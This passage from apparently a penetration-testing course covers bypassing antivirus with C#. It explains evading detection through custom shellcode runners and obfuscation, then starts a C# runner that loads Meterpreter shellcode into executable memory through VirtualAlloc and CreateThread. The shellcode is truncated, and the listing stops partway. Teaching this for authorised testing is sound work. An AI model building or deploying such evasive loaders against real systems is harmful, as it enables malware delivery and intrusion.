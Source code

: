 1

(Wikipedia, 2020), [https://en.wikipedia.org/wiki/Advanced_Encryption_Standard](https://en.wikipedia.org/wiki/Advanced_Encryption_Standard) [↩︎](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fnref-local_id_5135-1)

2

(Rapid7, 2018), [https://blog.rapid7.com/2018/05/03/hiding-metasploit-shellcode-to-evade-windows-defender/](https://blog.rapid7.com/2018/05/03/hiding-metasploit-shellcode-to-evade-windows-defender/) [↩︎](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fnref-local_id_5135-2)

## 9.5. Bypassing Antivirus with C#

As we have discovered, public code and techniques are often flagged by antivirus software. This makes sense since antivirus vendors have access to this code as well and have taken the time to properly analyze it.

There are two effective ways to avoid detection. We can either write our own code with custom shellcode runners or manually obfuscate any code we use.

Since we have already implemented a shellcode runner in C#, we will use that as the basis of our approach.

### 9.5.1. C# Shellcode Runner vs Antivirus

The C# shellcode runner we developed earlier used _VirtualAlloc_, _CreateThread_, and _WaitForSingleObject_ but included un-encoded and un-encrypted 64-bit Meterpreter shellcode.

Let's try to compile the standalone shellcode runner, which is presented in Listing 25 as a 64-bit application.

```
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Net;
using System.Text;
using System.Threading;

namespace ConsoleApp1
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, 
            uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, 
            uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, 
                  uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, 
            UInt32 dwMilliseconds);
        
        static void Main(string[] args)
        {
            byte[] buf = new byte[752] {
              0xfc,0x48,0x83,0xe4...

            int size = buf.Length;

            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

```